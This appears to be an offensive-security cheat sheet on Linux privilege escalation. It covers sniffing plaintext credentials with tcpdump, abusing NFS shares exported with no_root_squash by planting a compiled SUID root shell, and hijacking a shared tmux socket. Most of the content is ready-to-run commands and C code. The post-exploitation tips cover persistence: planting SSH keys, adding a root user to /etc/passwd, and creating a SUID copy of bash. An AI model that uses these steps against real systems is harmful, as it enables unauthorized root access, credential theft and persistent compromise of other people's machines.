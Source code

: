 ### 1. Technique Name:

Miscellaneous Privilege Escalation – Passive Traffic Capture, Weak NFS, and tmux Hijack
### 2. Summary:

This entry covers three lesser-known but potent privilege escalation techniques:

- Passive Traffic Capture using tools like `tcpdump` to sniff credentials from plaintext protocols.   
- Weak NFS Privileges where poorly configured NFS shares allow writing SUID binaries to escalate to root.
- tmux Session Hijacking where misconfigured or shared tmux sockets permit attaching to root sessions.
### 3. Conditions / Requirements:

- Traffic Capture:    
    - `tcpdump` installed and executable
    - Interface permissions (may need group `wireshark` or `tcpdump`)
    - Network using plaintext or weak protocols (e.g., HTTP, FTP, POP3)    
- Weak NFS:
    - NFS exports with `no_root_squash`
    - Access to mount NFS share (e.g., from attacker box)
    - Ability to compile and copy SUID binary
- tmux Hijacking:
    - Shared tmux socket file (e.g., `/shareds`) accessible and group-readable
    - Attacker is in the same group as the shared socket
### 4. Enumeration Steps:
#### A. Traffic Capture

Check for tcpdump:

```bash
which tcpdump
getcap /usr/sbin/tcpdump
```

Start capture:

```bash
tcpdump -i any -nn -A port 21 or port 80 or port 110 or port 25
```

Analyze using:

```bash
net-creds -i dump.pcap
# or
python3 PCredz.py -f dump.pcap
```
#### B. NFS Misconfiguration

List remote NFS exports:

```bash
showmount -e <target_ip>
```

Check `/etc/exports` on server if accessible:

```bash
cat /etc/exports
```

Look for `no_root_squash` option.
#### C. tmux Session Hijack

Find tmux socket:

```bash
ps aux | grep tmux
ls -l /shareds
```

Check group membership:

```bash
id
```
### 5. Exploitation Steps

#### A. Sniffing Cleartext Credentials

```bash
tcpdump -i eth0 -w dump.pcap
```

Later:

```bash
net-creds -i dump.pcap
# or
wireshark
```

Look for HTTP Basic Auth, POP3, FTP, NetNTLM hashes.
#### B. Weak NFS + SUID Shell

Create C file:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile:

```bash
gcc shell.c -o shell
```

Mount NFS share from attacker box:

```bash
mount -t nfs <target>:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

On victim:

```bash
/tmp/shell
# id
uid=0(root) gid=0(root)
```
#### C. Hijack tmux Session

If attacker is in same group:

```bash
tmux -S /shareds
# id
uid=0(root)
```
### 6. Post-Exploitation Tips:

- From NFS:    
    - Place SSH key in `/mnt/root/.ssh/authorized_keys`
    - Add root user to `/mnt/etc/passwd`        
- From sniffed creds:
    - Reuse them for `sudo`, `ssh`, `su` attempts
- From tmux:
    - Drop root shell:

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```
### 7. Example / Notes:

NFS Exploitation:

```bash
gcc shell.c -o shell
mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt && chmod u+s /mnt/shell
```

tmux Example:

```bash
tmux -S /shareds
# id
uid=0(root)
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #NFS #tmux #tcpdump 